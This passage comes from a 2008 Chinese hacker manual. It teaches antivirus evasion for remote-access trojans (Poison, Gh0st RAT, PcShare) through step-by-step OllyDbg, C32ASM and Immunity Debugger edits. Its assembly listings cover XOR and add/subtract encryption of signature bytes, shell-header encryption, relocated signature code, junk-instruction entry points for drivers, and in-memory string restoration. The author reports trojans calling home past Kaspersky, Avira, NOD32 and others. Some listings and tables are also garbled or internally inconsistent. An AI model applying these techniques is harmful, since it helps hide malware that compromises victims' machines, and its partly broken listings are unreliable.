| 00407000 | 00001000 | test_vmp | .rsrc | 资源 | Imag | R |
| 00408000 | 00001000 | test_vmp | .vmp0 |  | Imag | R |
| 00409000 | 00001000 | test_vmp | .vmp1 | 重定位 | Imag | R |
| 7C800000 | 00001000 | kernel32 | PE 文件头 |  | Imag | R |
| 7C801000 | 00008400 | kernel32 | .text | 代码 | Imag | R |
| 7C885000 | 000055000 | kernel32 | .data | 数据 | Imag | R |
| ... | ... | ... | ... | （剩余行简化） | ... | ... |

图 44

一般情况下，杀毒软件杀壳和加密工具都是杀新加的区段里的代码，那么图 43 那里就是我们修改的目标。对于跳转，我给出一种新的方式，以前写花指令的时候有过这样的一个跳转：

```asm
mov eax, xxxxxx
jmp eax
```

这个在花指令中是可以代替 JMP 进行跳转的，相当于 `jmp xxxxxx`。但是这里还可以用另一种方式进行跳转，在程序刚刚载入的时候，我们发现 eax 寄存器的值为 0，右侧窗口可以查看到，如图 45 所示。

那么前面说的那两句就可以改写成：

```asm
add eax, xxxxxx
jmp eax
```

其中 `xxxxxx` 是跳向的目标地址，之后在跳向的目标地址后写上 `sub eax, xxxxxx` 来恢复 eax 的值，这样就构成了一次完美的跳转。

说到这里，先来实际操作一下。在图 41 下面的空白处选择一个起始地址，我这里选择 `004010F9` 这个地址作为起始地址，那么程序刚刚载入时的 jmp 跳转就可以改成如图 46 所示的样子了。

由于原来是长跳转，现在变成了短跳转，所以下面多出来三个 nop 指令，这个是没有关系的。然后在跳到的开始处写入垃圾指令，可以写上 30 个 `xor eax,0C`，只要写偶数就不影响原来 eax 的值。接着用我们刚刚说到的跳转方式进行跳转，入口处的 JMP 是跳向 `00408E65` 的，从图 41 中可以看到，这里就可以这样写：

```asm
add eax, 00408E65
jmp eax
```

但是 `00408E65` 处是图 42 的那里，跳向的位置全是代码，而其下面还有许多空白，不妨先跳向下面的空白处，在那里继续写垃圾指令。其实不跳向空白处都不可以，因为直接跳向 `00408E65` 那里，eax 的值没有恢复，程序会运行出错。

选择图 42 中的 `00408E91` 作为跳向的地址，所以 `add eax,00408E65` 要改成 `add eax,00408E91`。这之后在 `00408E91` 处恢复 eax 的值，写上 `sub eax,00408E91`。然后继续写垃圾指令，这里的垃圾指令可以构造前面我们所说的新的跳转方式，也算是复习了，添加指令如下：

## 与杀软的周旋——免杀大应用

```
00408E90  90            nop
00408E91  2D 918E4000   sub eax,00408E91 这里恢复eax的值，为0
00408E96  05 9D8E4000   add eax,00408E9D 又给一个新的地址，继续跳
00408E9B  FFE0          jmp eax 跳到00408E9D
00408E9D  83C0 05       add eax,5 00408E9D+5=00408EA2
00408EA0  FFE0          jmp eax 跳向00408EA2
00408EA2  83C0 05       add eax,5 00408EA2+5=00408EA7
00408EA5  FFE0          jmp eax 跳向00408EA7
00408EA7  2D A78E4000   sub eax,00408EA7 恢复eax
00408EAC  EB B7         jmp short 00408E65 这跳向最后要跳向的地址图42那里
00408EAE  90            nop
```

图42那里的跳转是跳向图43中最上方的，图43那里的跳转我们继续修改。先在跳转的地址下面继续寻找一片空白处，不急，多跳转几次，免杀效果会更好。接着找到跳转处选择地址00408EAE，图42里的四个跳转都跳向这里，如图47所示。

```
00408E63  DABD685C8840  fidivr dword ptr [ebp+40885C68]
```

他地方，但修改方法也基本一样。

首先要做的是，用OD载入后先跳到你加密的第一个地址，从那里进行跟踪也会是这个流程，所以改法仍然是一样的。即使有些细节不同，但万变不离其宗，自己多实践几次，一定会DIY出让你满意的个人专用改法的VMP。

这里提示一下，虽然是改壳，但是未必就要改其中的指令，尽量不对原来指令做修改，修改了可能会影响程序的稳定性，壳这种东西本来就存在兼容性的。

## 十、XOR异或加密在免杀中的应用

异或加密是一种简单的加密算法，在破解中经常遇到。举个例子说明一下XOR加密算法吧，例如00001 xor 11110 = 11110，11110 xor 11111 = 00001。XOR异或是可以看做不进位的二进制加法，这样说就好理解了。

在反汇编中，XOR的运算指令如下所示：

xor eax,11111111，这个的含义就是寄存器eax里面的值与11111111做异或运算之后把结果赋给eax。如果再进行一次同样的运算，eax的值又变回原来的值了。

下面就是进行XOR加密和解密的代码（附上说明）：

```
Pushad
mov ebx
```

通过说明就很容易明白这段反汇编指令的作用了，它既可以进行加密，也可以进行解密。过程大致是这样的：把指令放在程序的入口处，用OD单步运行的时候，会得到指定字符串加密后的字符串，这是加密的过程。然后将加密后的字符串复制出来，用16进制编辑器替换掉原来的字符串，再次运行的时候，就是解密了（原理：00001 xor 11110 = 11110，11110 xor 11111 = 00001。前面说过，xor两次后会得到原来的值，将加密内容再次异或运算就是原来的值），会得到原来的字符串，这种方法类似于动态解密的过程。下面用实例来操作一下：

首先生成Poison2.3.2木马（国外一个木马的汉化版）的服务端，OD载入，记录原来的入口点004010D4。寻找空白区域，起始地址为00401112。我们来加密一段写入注册表的字符串，如图49所示。


在空白区域添加上面我们说过的代码：

```
00401113 > 60            pushad                    // 新的入口地址
00401114   BB 10334000   mov ebx,00403310          // 加密起始地址，图49中椭圆圈上的地址
00401119   B9 04000000   mov ecx,4                 // 循环四次
0040111E   8B03          mov eax,dword ptr [ebx]
00401120   35 44332211   xor eax,11223344
00401125   8903          mov dword ptr [ebx],eax
00401127   83C3 04       add ebx,4                 // 每次加密的长度，图49中的四个长度（一整行）
0040112A   E2 F2         loopd short 0040111E
0040112C   61            popad
0040112D   EB A5         jmp short <模块原来入口点> // 跳到原来入口
0040112F   90            nop
```

结合图49，看好代码中地址的对应关系，之后OD保存添加完代码的文件，用Peditor更改入口到00401113，如图50所示。


之后OD再次载入，让OD下面16进制的窗口显示如图49的样子（显示出要加密的数据），接下来在OD中单步步入（F7），我们看到如图51所示，是加密后的数据，可以和图49对比一下。


之后我们将这一整行复制出来，如图52所示。复制出来的数据如下：

```
00403310  27 41 4D 62 2B 55 56 4D 13 5A 4C 75 2B 44 51 4D  'AMb+UVM.ZZLu+DQM
```


之后关闭OD，用C32ASM打开文件，利用搜索找到刚才我们要加密的字符串，如图53所示。然后用加密数据替换，如图54所示。


之后保存文件，再用OD载入，F7单步步入，会看到被解密的效果，如图55所示。


图55是循环两次的结果，这一行中已经解密出来了一半，运行程序的时候效果是一样的，也会在内存中解密出原来的结果。

如果用此方法加密特征码，保存在文件中是加密后的，也就达到了修改特征码的目的。运行的时候解密出来，程序就可以正常运行。

我们来测试下，把服务端拖到虚拟机，运行后成功上线，这个是必然的。我们再重新启动下虚拟机，看看能不能成功上线，因为我们刚才改的是注册表启动的字符串。如图56所示，重启后仍然成功上线！


至于运用的实际情况，可能每个人都有所不同，你也可以将加密的长度调整为一个区段，这就需要仔细地计算了。而且，这种加密不改变文件的大小，修改特征码也简单方便。

## 十一、加减法加密算法加密aspack2.12过小红伞和卡巴

前面我们介绍了xor加密算法在免杀中的应用，本节将介绍一种加减法加密算法在免杀中的应用。在网上还没有看到这样的相关资料，算是本人对xor算法加密免杀的原创改进吧，呵呵。

简单介绍一下这种算法，过程大致与xor加密是相同的，但是原理不同。xor是两次同样的密钥异或后会得到原来的结果，解密过程的代码和加密过程的代码是相同的；而加减法加密免杀，如果加密用加法，解密就要用减法；如果加密用减法，解密就要用加法。

我们分别来看看加密和解密的代码部分，首先是加密过程的代码：

```
Pushad
mov ebx,X0
    把所有寄存器压入堆栈
X0是进行加密地址的起始地址
mov ecx,4
    4是循环的长度，ecx是计数器，每次循环后减1
mov eax,dword ptr [ebx]
    地址为X1，特征码的内存地址传送到ebx寄存器中
add eax,01010101
    其中01010101是我们自定义的密钥，加密指令
mov dword ptr [ebx],eax
    把加密后的内容传送给ebx
add ebx,4
    4是一次加密字串的长度
loopd short X1
    跳转到mov eax,dword ptr [ebx]进行循环
popad
    所有寄存器取出堆栈
jmp X2
    X2是原来程序的入口点
```

通过以上的加密代码，我们看到是和xor加密基本一样的过程，如果这段代码被杀，相比起来，改进也是很方便的。再来看一下解密过程，作用是将上段代码加密的部分进行还原，代码如下：

具体的相关过程，我们来看接下来的步骤。首先还是要配置一个木马的服务端，作为样本来操作，然后用ASPACK 2.12加壳，顺便演示下用这种方法加密壳头免杀的实例。

用OllyICE载入配置好的服务端，加密过程和xor加密大致一样，但是细节不同。来看一下用ASPACK2.12加密后程序入口处的代码，如图57所示。


随后鼠标左键选择要加密壳头部分的代码，之后按照图57中的箭头指示进行操作，会看到数据窗口的16进制形式的数据。

这部分是要加密的，但是和XOR加密不同，我们不能加密FF这样的16进制数据（前面已经介绍了，加密后会无法还原，如果你喜欢发散思维，这种缺陷是可以解决的）。随后在ASPACK2.12加密后的服务端的中间部分找到了一片空白区域，我寻找到004085C9作为起始地址，下面是一大段空白区域。不同的程序，用ASPACK压缩得到的地址是不同的。

我们采用加法算法来加密，减法算法来解密，以下是加密代码：

```
004085C9 > 60            pushad                    所有通用寄存器入栈
004085CA   BB 01804000   mov ebx,00408001          加密起始地址送入ebx
004085CF   B9 04000000   mov ecx,4                 设定循环次数
004085D4   8B03          mov eax,dword ptr [ebx]   ebx处的数据送入eax
004085D6   05 11111111   add eax,11111111          通过密钥加密，密钥11111111
004085DB   8903          mov dword ptr [ebx],eax   加密后数据传回ebx
004085DD   83C3 04       add ebx,4                 ebx地址向后四位
004085E0   E2 F2         loopd short 004085D4      循环
004085E2   61            popad                     所有通用寄存器出栈
004085E3   E9 19FAFFF    jmp 00408001              跳回原来入口
004085E8   90            nop
```

接着在OllyICE中保存修改后的文件，用LordPE修改入口到004085C9。再次载入修改后的程序，在OllyICE中按鼠标左键选择要加密的代码，然后右键选择“在数据窗口中跟随”，会在数据窗口查看到未加密之前的16进制形式代码，也就是图57中的操作。

之后跳回新改的入口处开始F8单步步入，这时数据窗口的数据依然是壳原来入口点的数据，我们把数据复制出来：

60 E8 03 00 00 00 E9 EB 04 5D 45 55 C3 E8 01 00

分析一下这个数据里面有没有大于EE的数据。我们的密钥是11111111，一次加密四字节，也就是每个机器码上加11。如果存在大于EE的数据，因为EE + 11 = FF，这样就会产生前面我们所说的缺陷。分析过后，可以知道这段数据都是可以加密的，加密指令中一次加密四个，循环四次，恰好加密这16个数据。

现在F8单步步入，会看到16进制窗口的数据跟着改变，循环四次后得到加密后的指令：

71 F9 14 11 11 FA FC 15 6E 56 66 D4 F9 12 11

和原来数据相比，每个数据都加了11，这就是加密后的指令。我们用二进制编辑，把加密的指令写入，如图58所示。


之后保存修改后的文件，然后将加密代码改写为解密代码，如图59所示。

```

```

最后保存修改后的代码进行测试，在虚拟机中完美上线，本机上测试过掉了小红伞和虚拟机上的卡巴斯基。

> 本文向读者介绍了与xor加密类似的另一种加密方式，密钥依然可自己定义，但是定义的密钥和原来的16进制相加，或者相减的值不能超过FF，或者是负数。总之，在实践中多总结就会有创新，甚至大家还可以尝试用取反（not）、或（or）这些方式来加密解密。这种加密方式可以加密壳头及特征码（加密内存特征无用），还可以用在程序的中间部分加密某部分代码，这些都靠大家自己动手去发挥了。

## 十二、免杀实战之gh0st2.5完美过卡巴7.0主动防御

Gh0st Rat是一款不错的木马，在WINXP下十分稳定，其服务端本身自带驱动，能够恢复SSDT完美过掉卡巴的主动防御。由于卡巴7.0在杀毒机制上比以前的版本要强大许多，还具有启发式杀毒功能，所以相对免杀起来较为困难，本节内容算是对前面知识的综合运用，下面就来介绍如何打造完美版过主动防御的Gh0st Rat（下文中简称G）服务端。

首先配置G的服务端，如图60所示，填写好“上线主机”文本框里的IP和端口后，会在“上线字串”里面得到字串。然后将其复制粘贴到如图61所示的“域名上线字串”文本框中，接着点击“生成服务端”，这样一个无壳的服务端server.exe就生成了。


图60


图61

接下来的操作是定位出三个文件的特征码，用ResScope打开刚才生成的server.exe这个服务端文件，如图62所示。


图62

将BIN展开，看到了名称为“101”的这个资源，依次点击“文件”－“导出资源”，将其导出保存为1.dll。再用ResScope打开刚才导出的1.dll，如图63所示。


将名称为102的资源导出保存为11.sys，这样我们就得到了三个文件：server.exe、1.dll和11.sys。

先来定位11.sys文件的特征码，这个要使用到工具MYCLL，我直接给出定位出的特征码，00000696_00000002，转换成内存地址为00010696。对于sys文件的修改方式，我们这里直接用Vmprotect加密处理。

用Vmprotect1.62 DEMO版打开11.sys，如图64所示。虽然特征码的位置在内存地址00010696处，但是我们在“新建流程”处的“地址”栏里输入00010690，这样使得00010696处的上下代码都显示出来，如图65所示。


分析下特征码的特征，从图65中可以看出，00010696这个地址存在的不是单独一条指令，直接加密容易出错，所以可以从00010695开始加密。

删除原来的流程，新建流程地址填写00010695，如图66所示。之后在“选项”标签页里把所有的勾勾全部去掉，如图67所示，然后就可以进行加密了。


加密后的11.sys命名为22.sys，然后用卡巴扫描，未检测到任何风险，这样驱动的免杀就做好了。将做好的驱动免杀文件用ResScope导入到1.dll，替换掉原来导出的资源，如图68所示，最后将其另存为2.dll。


另外可以利用C32ASM进行修改特征码：用C32ASM打开11.sys跳到特征码所在位置，位置附近情况如下：

```
00010694: 57
PUSH EDI
00010695: 8845 F8
MOV EAX,[DWORD SS:EBP-8]
00010698: 8965 E8
MOV [DWORD SS:EBP-18],ESP
0001069B: 50
PUSH EAX
0001069C: 8845 FC
MOV EAX,[DWORD SS:EBP-4]
0001069F: C745 FC FFFFFFFF
MOV [DWORD SS:EBP-4],-1
```

## 修改后如下：

```
00010694: 57
PUSH EDI
00010695: EB 3F
JMP SHORT 000106D6
特征码位置跳转到新的位置
00010697: 90
NOP
00010698: 90
NOP
00010699: 90
NOP
0001069A: 90
NOP
0001069B: 50
PUSH EAX
0001069C: 8845 FC
MOV EAX,[DWORD SS:EBP-4]
0001069F: C745 FC FFFFFFFF
MOV [DWORD SS:EBP-4],-1
中间省略部分……
000106D4: 0000
ADD [BYTE DS:EAX],AL
000106D6: 8845 F8
MOV EAX,[DWORD SS:EBP-8]
新的位置
000106D9: 8965 E8
MOV [DWORD SS:EBP-18],ESP
000106DC: EB BD
JMP SHORT 0001069B
跳回去继续执行
000106DE: 90
NOP
000106DF: 90
NOP
000106E0: 0000
ADD [BYTE DS:EAX],AL
```

修改说明：在程序后面寻找一段空白代码，将特征码移到空白位置，再跳回原来位置继续执行。可以参照修改代码后面的说明，修改完毕后别忘记用Peeditor校验和，手动修改相对稳定性高一些。

接下来对2.dll进行定位，依然用MYCLL，同样直接给出特征码位置：

- 0000EAE9_00000004 内存地址：1000F6E9
- 000159CE_00000002 内存地址：100189CE

这里修改特征码就会遇到难题了，也是本节要介绍的重点。用OD载入目标文件，跳到1000F6E9处先进行修改，当我们修改完1000F6E9保存文件的时候弹出如图69所示窗口。


## 非安全·黑客手册2008 第一增刊

发现保存的 DLL 文件不是原来的文件，而是卡巴斯基文件夹里的一个名为 miscr3.dll 的文件，我们再修改 100189CE 的时候出现“指定地址无内存”的提示。

如果出现这种情况，是很郁闷的事情，首先怀疑是不是特征码定位错了。其实没有错，原因是：

凡是装了卡巴 7.0 的机器，卡巴对该机器的系统肯定有一定的修改，干扰调试器调试文件。于是在装了卡巴斯基 7.0 的机器上修改特征码，往往容易出错，修改完后发现依然被杀，或者有时候被杀有时候不杀。所以，最有效的办法是定位与修改分离，大家可以将这个要修改的 DLL 文件在没有装卡巴的虚拟机中进行修改。

重新用 OD 打开要修改的 DLL 文件，发现这次是正常的了，保存后也依然是原来的文件。这里可以肯定一下，就是卡巴在作怪！所以修改特征码不要在装有卡巴的机器上修改，利用虚拟机是我比较喜欢的方法。

我们复制出第一处特征码位置附近的反汇编代码：

```asm
1000F6E3 |. 56           push esi
1000F6E4 |. 53           push ebx
1000F6E5 |. E8 D68FFFF   call 100085C0
1000F6EA |. 83FE 01      cmp esi, 1
1000F6ED |. 8945 0C      mov dword ptr [ebp+C], eax
1000F6F0 |. 75 0C        jnz short 1000F6FE
```

特征码在 CALL 指令的那一行，其作用一般是调用其他过程，我们可以把这条指令移动位置。使用跳转法，先将 `call 100085C0` 这条指令复制出来之后用 NOP 填充，然后找一处空白区域，起始地址为 1000FA6F，再将刚刚 NOP 填充的地方换成跳转指令 `jmp 1000FA6F`，跳转到这个空白区域的起始位置。之后来到空白区域起始位置，进行“汇编”写入 `call 100085C0` 这条指令，紧接着下面写 `jmp 1000F6EA`。如果不明白，可以参照下面修改好的代码，大家可以对比前面一段代码（注意位置：第 3 行、倒数第 3、4、5 行）。

```asm
1000F6E3 |. 56           push esi
1000F6E4 |. 53           push ebx
1000F6E5    E9 85030000  jmp 1000FA6F
1000F6EA |. 83FE 01      cmp esi, 1
1000F6ED |. 8945 0C      mov dword ptr [ebp+C], eax
1000F6F0 |. 75 0C        jnz short 1000F6FE
中间省略……以下是空白区域添加的代码
1000FA6D    00           db 00
1000FA6E    00           db 00
1000FA6F    E8 4C8BFFFF  call 100085C0
1000FA74    E9 71FCFFFF  jmp 1000F6EA
1000FA79    90           nop
1000FA7A    00           db 00
1000FA7B    00           db 00
```

修改完第一处特征码后先将文件保存，再接着修改下一处特征码，内存地址 100189CE。复制出来，发现下面全是异或运算，对于同一个数进行连续的异或运算，运算顺序是可以改变的，其结果不变。这样，我们可以直接将两条指令调换一下位置：

```asm
100189CD 34 14  xor al, 14
100189CF 34 18  xor al, 18
```

修改后如下：

```asm
100189CD 34 18  xor al, 18
100189CF 34 14  xor al, 14
```

将文件保存为 3.dll，文件完美免杀。将 3.dll 导入到 server.exe，如图 70 所示。


图 70

本节算是对特征码修改的综合运用，几处特征码都是手工修改，最后的服务端成功在卡巴斯基 7.0 主动防御全开的情况下完美上线，而且服务端没有壳，扫描内存也没有发现任何迹象，也是很完美地过了卡巴启发式杀毒。这里需要强调的一点就是，卡巴的定位与特征码修改是要分离的，也就是修改特征码时不要在装有卡巴的机器上进行，这样修改起来才准确。定位的过程我没有写，但也存在一个小技巧，不要每次生成 100 个文件，如果你生成 100 个，卡巴可能一个都不杀。尽量是生成 99 个文件、98 个文件等，用这样的数字来定位，00 替换不行就换成 90，正向不行就换成反向，最后肯定会准确地定位出特征码的。

### 十三、拿出调试新武器 IDebugger
#### 驱动文件加花指令全免杀

一直以来都是用 C32ASM 来对驱动文件（.sys）做免杀，但是 C32ASM 对指令的解析能力不如 OlyDBG 强，这也是大家都用 OD 来修改 EXE 和 DLL 的原因，本节就来介绍一款新的调试工具——Immunity Debugger v1.5（以下简称 IDBG，是汉化版）。

这个工具和 OD 的界面是一样的，功能上也几乎一样，对于做免杀的人来说，它最大的优点是能够打开驱动文件。我们就以 PCSHARE 的驱动文件为例，来用这款工具做下它的免杀。

用 IDBG 打开驱动文件的时候，会遇到如图 72 所示的提示。这里直接点“是”就可以了，之后又会弹出警告窗口，点“确定”，如图 73 所示。


接着还会弹出“程序初始化失败”的窗口，依然点“确定”，如图 74 所示。最后终于看到了反汇编窗口中的代码，如图 75 所示。


但是这个不是真正的驱动文件的反汇编代码，不信我们来保存一下看看，如图 76 所示。

| 地址 | 机器码 | 指令 |
|---|---|---|
| 7C98478E | C9 | LEAVE |
| 7C98478F | C2 0400 | RETN 4 |
| 7C984792 | 90 | NOP |
| 7C984793 | 90 | NOP |
| 7C984794 | 90 | NOP |
| 7C984795 | 90 | NOP |
| 7C984796 | 90 | NOP |
| 7C984797 | 8BFF | MOV EDI, EDI |
| 7C984799 | 55 | PUSH EBP |
| 7C98479A | 8BEC | MOV EBP, ESP |
| 7C98479C | 53 | PUSH EBX |
| 7C98479D | 56 | PUSH ESI |
| 7C98479E | 8B7508 | MOV ESI, DWORD PTR SS:[EBP+8] |
| 7C9847A1 | 8B06 | MOV EAX, DWORD PTR DS:[ESI] |
| 7C9847A3 | 69C0 EDFFFF7F | IMUL EAX, EAX, 7FFFFFFD |
| 7C9847A9 | 57 | PUSH EDI |
| 7C9847AA | B9 C3FFFF7F | MOV ECX, 7FFFFFC3 |


在刚刚载入后的入口点处的反汇编代码不是驱动文件入口处的代码，也就是载入驱动的时候跑飞了，我们要找回原来的入口。

将图 76 和图 77 对比一下，可以看到前者刚刚载入所停留的位置不是驱动文件代码所包含的位置，只有“属主”是 PcHide 的才是驱动所包含的位置，这可以从图 77 中看到。

| 地址 | 起始 | 大小 | 属主 | 段 | 类型 |
|---|---|---|---|---|---|
| 7C98478E | 00010000 | 00000300 | PcHide | .text | PE 文件头 代码,导入 |
| 7C98479F | 00010300 | 00001000 | PcHide | .text | 映像 代码,导入 |
| 7C984792 | 00011300 | 00000C80 | PcHide | .data | 映像 代码,资源 |
| 7C984793 | 00011F80 | 00000080 | PcHide | INIT | 映像 代码 |
| 7C984794 | 00020005 | 00000100 |  | 堆栈/主线 | 映像 私有 |
| 7C984795 | 00030000 | 00000100 |  | 私有 | 映像 私有 |
| 7C984796 | 00070000 | 00000100 |  | 私有 | 映像 私有 |
| 7C984797 | 0007E000 | 00000200 |  | 私有 | 映像 私有 |
| 7C984799 | 00080000 | 00000300 |  | 堆栈/主线 | 映像 私有 |
| 7C98479A | 00090000 | 00000300 |  | 私有 | 映像 私有 |
| 7C98479C | 00100000 | 00008600 |  | 私有 | 映像 私有 |

所以只要能够查看到这个，说明驱动已经被成功载入了，找到驱动的真正入口是很容易的，这里再来借用一下 C32ASM。首先用 C32ASM 打开驱动文件，不要以拖拽的形式打开，建议选择菜单“文件”－“打开文件进行反汇编”，如图 78 所示。


之后，按鼠标右键，选择“跳到入口点”，如图 79 所示，这样就会来到驱动文件的入口处，如图 80 所示。


记录下这个入口地址：00010DFE，之后在 IDBG 中跳转到这里，久违的入口终于找到了，如图 81 所示。


和图 80 对比一下，前 5 句指令是一样的，还是 IDBG 这种和 OD 一样的窗口让人觉得舒服。现在就可以像 OD 修改 EXE 和 DLL 那样来修改这个驱动文件了。下面介绍一个修改驱动的小技巧：先在驱动文件的这个区段找一块空白处，滚动条向下拉，有很大一块空白，如图 82 所示。


我们采取“去头加花”来免杀这个驱动文件，驱动文件的花指令相对比较严格，所以加的时候要谨慎，要严格测试。这里把驱动真正入口处的前三句复制出来：

```asm
00010DFE > 55
PUSH EBP
00010DFF 8BEC
MOV EBP, ESP
00010E01 81EC 18020000
SUB ESP, 218
```

把前两句移动到空白位置，之后写几句花，然后跳回第三句的 00010E01 那个地址。在图 82 处的空白处写入以下代码：

```asm
00010F7E 55
PUSH EBP
新的入口地址
00010F7F 8BEC
MOV EBP, ESP
00010F81 83F0 0C
XOR EAX, 0C
00010F84 83F0 0C
XOR EAX, 0C
00010F87 83F0 0C
XOR EAX, 0C
00010F8A 83F0 0C
XOR EAX, 0C
00010F8D 50
PUSH EAX
00010F8E 58
POP EAX
00010F8F E9 6DFFFFFF
JMP PcHide.00010E01
跳回原来入口下方
```

之后保存修改文件，和 OD 操作是一样的。接着退出 IDBG，退出的时候也和载入一样，会报许多错误，不用管这些，取消关闭错误提示框就可以了，无大碍。

之后再次载入刚刚保存的驱动文件，将真正入口处我们转移的前两句 NOP 填充，如图 83 所示，接着再次保存文件。

| 地址 | 机器码 | 指令 |
|---|---|---|
| 00010DFE | 90 | NOP |
| 00010DFF | 90 | NOP |
| 00010E00 | 90 | NOP |
| 00010E01 | 81EC 18020000 | SUB ESP, 218 |
| 00010E07 | 56 | PUSH ESI |
| 00010E08 | 57 | PUSH EDI |
| 00010E09 | BE D00D0100 | MOV ESI, PcHide.00010DD0 |
| 00010E0E | 8DBD F0FDFFFF | LEA EDI, DWORD PTR SS:[EBP-210] |

之后请出 LordPE 来更改入口到新的地址 00010F7E，接着进行校验和，顺序是先更改入口，最后校验和。这样就免杀完毕了，经过测试，端口成功隐藏，说明驱动加载成功。

> 加花免杀算是一个比较流行而简便的方式，通过这种方式处理后，即使有些杀软继续追杀，再定位它们的特征也不迟。对于 GhOst 的驱动，采取这种方式后，过掉了小红伞、NOD32、金山、卡巴、江民和瑞星，只有驱逐舰没有过，但是再次简单定位一下就可以了，只需修改一处特征码。对于驱动的特征，还是尽量少做修改比较好。

本节算是对驱动修改的改进，同时也给大家介绍了一个新的用来修改驱动的调试工具，大家有不明白的地方，可以参看动画教程。

### 十四、字符串转移之后在内存中的动态恢复

我们经常遇到文件的特征码是字符串，这样的特征码有时候改写大小写也逃不过杀软追杀，甚至改写后程序不能够运行。对于这样的字符串，我们可以先把原来的字符串填充掉，之后用反汇编在内存中动态恢复，这样程序运行的时候，相应填充掉的字符串还会在内存中恢复，和程序原来执行的效果一样，但是原处的文件特征已经不存在，所以可以达到免杀的作用。

本文以 PcShare 的一个免费版 PcMain.dll 文件为例，来说明如何进行 DLL 文件中字符串在内存中的动态恢复，这里就不具体演示某个特征码了，随意拿出一段字符串为例。

首先用 OD 载入无壳的 PcMain.dll，然后按照如图 84 所示，按鼠标右键选择“查找”－“所有参考文本串”，随意查找一串字符串。


接着会看到许多字符串，如图 85 所示，我们随意找一处来操作，就以“%s%s%s%s\Parameters”这个字符串为例吧。

| 地址 | 指令 | 操作数 | 字符串 |
|---|---|---|---|
| 1000AC43 | push | 10012210 | ASCII ".dll" |
| 1000AE0C | push | 100121A4 | ASCII "%s%s%s\Parameters" |
| 1000AE50 | push | 10012198 | ASCII "%s%s%s" |
| 1000AE42 | push | 100121A4 | ASCII "%s%s%s\Parameters" |
| 1000AEE6 | push | 10012198 | ASCII "%s%s%s" |
| 1000AF38 | push | 100121A4 | ASCII "%s%s%s\Parameters" |
| 1000AF7C | push | 10012198 | ASCII "%%s%%s%%s" |

（注：因图片分辨率限制，部分内容可能存在显示误差）

选择好字符串后，按鼠标右键选择“反汇编窗口中跟随”，如图 86 所示，接着来到如图 87 所示的位置。


我们看到了对应的 `push 100121A4` 这条指令，之后在 OD 中跳转到这个 PUSH 后的地址，来到如图 88 所示的位置。


之后选上一部分反汇编代码，按鼠标右键选择“二进制”－“编辑”，会看到二进制编辑框中显示出我们要动态恢复的字符串，如图 89 所示。


之后关掉对话框，在选中的代码上按鼠标右键选择“二进制”－“二进制复制”，将代码粘贴到记事本上。我们可以对照图 89 进行比较，提取的 16 进制数据如下：

25 73 25 73 25 73 25 73 5C 50 61 72 61 6D 65 74 65 72 73

之后，四个一组进行 ASCII 值重新排序，转换过程如下：

- 25 73 25 73 → 73257325
- 25 73 25 73 → 73257325
- 5C 50 61 72 → 7261505C
- 61 6D 65 74 → 74656D61
- 65 72 73 → 737265

这里需要注意一下，转换后 ASCII 值数据是倒着写的，类似于从低位到高位。之后我们记录下图 88 中数据的起始内存地址 100121A4，再来看一下恢复字符串的反汇编代码：

- Pushad（新的入口点开始位置）
- call 下一句指令（重定位前的内存地址）
- pop eax
- sub eax，上一句指令重定位前的内存地址
- add eax，重定位前的 ASCII 字符串原内存地址  
  以上几句是经典的解决重定位的代码
- mov dword ptr ds:[重定位后的 ASCII 字符串内存地址], ASCII 值
- popad
- jmp 原入口点

之后我们在 DLL 中找一块空白区域开始编辑恢复数据的代码，大家可以拉动滚动条来查看。我选择的起始地址为 1000F1A9，写入代码如下：

```asm
1000F1A9 60                pushad
1000F1AA E8 00000000       call 1000F1AF
1000F1AF 58                pop eax
1000F1B0 2D AFF10010       sub eax, 1000F1AF
1000F1B5 05 A4210110       add eax, 100121A4   ; ①
1000F1BA C700 25732573     mov dword ptr [eax], 73257325       ; ②
1000F1C0 C740 04 25732573  mov dword ptr [eax+4], 73257325     ; ③
1000F1C7 C740 08 5C506172  mov dword ptr [eax+8], 7261505C
1000F1CE C740 0C 616D6574  mov dword ptr [eax+C], 74656D61
1000F1D5 C740 10 65727300  mov dword ptr [eax+10], 737265
1000F1DC 61                popad
1000F1DD E9 E8FDFFFF       jmp 1000EFCA                          ; ④
```

① 这里和向上部分是重定位代码，在前面有过介绍，就不多说了；  
② 这里是把要恢复的数据写入 eax 保存的地址，从开始处写，数据多少字节，就写多少字节；  
③ 上一句占用四字节，所以 eax 存放地址要加 4，从 eax+4 的地址开始写，下面的一样；  
④ 这里跳回入口处。

写完以上代码后，如图 90 所示，马上保存修改。

| 地址 | 机器码 | 指令 |
|---|---|---|
| 1000F1A8 | 90 | nop |
| 1000F1A9 | 60 | pushad |
| 1000F1AA | E8 00000000 | call 1000F1AF |
| 1000F1AF | 58 | pop eax |
| 1000F1B0 | 2D B1F10010 | sub eax, 1000F1B1 |
| 1000F1B5 | 05 A4210110 | add eax, 100121A4 |
| 1000F1BA | C700 25732573 | mov dword ptr [eax], 73257325 |
| 1000F1C0 | C740 04 25732573 | mov dword ptr [eax+4], 73257325 |
| 1000F1C7 | C740 08 5C506172 | mov dword ptr [eax+8], 7261505C |
| 1000F1CE | C740 0C 616D6574 | mov dword ptr [eax+C], 74656D61 |
| 1000F1D5 | C740 10 65727300 | mov dword ptr [eax+10], 737265 |
| 1000F1DC | 61 | popad |
| 1000F1DD | E9 E6FDFFFF | jmp 1000EFC8 |
| 1000F1E2 | 90 | nop |
| 1000F1E3 | 90 | nop |
| 1000F1E4 | 90 | nop |
| 1000F1E5 | 90 | nop |
| 1000F1E6 | 90 | nop |
| 1000F1E7 | 90 | nop |

图 90

之后把入口点更改到 1000F1A8，也就是图 90 中代码的起始地址，接着使用 00 填充掉原来被恢复的代码，如图 91 所示。

| 原字节/反汇编 | 指令 | 备注 |
|---|---|---|
| 25 73 25 73 25 | and eax, 25732573 |  |
| 73:25 | jnb short 10012100 |  |
| 73:5C | jnb |  |
| 59 | push | 备份 |
| 61 | popad | 复制 |
| 72:61 | jb |  |
| 60 | ins | 汇编(A) / Space 用 00 填充(0) / Ctrl+E |
| 55:74 65 | je | 标签：用 NOP 填充(N) |
| 72:73 | jb | 注释； |
| 90 5C 53 65 | add | 断点(P) / 二进制复制 |

图 91

最后测试修改后的文件，成功上线并且功能完好！

本节给出了一种通用的字符串转移的方法，我们介绍的是 DLL 文件，主要是 DLL 比 EXE 稍复杂一点，涉及了重定位。而 EXE 当然也可以用这种方式来修改，只要去掉重定位部分的代码就可以了，不去掉仍然是可以的。

### 十五、解决重定位，DLL 文件也来加密算法加密

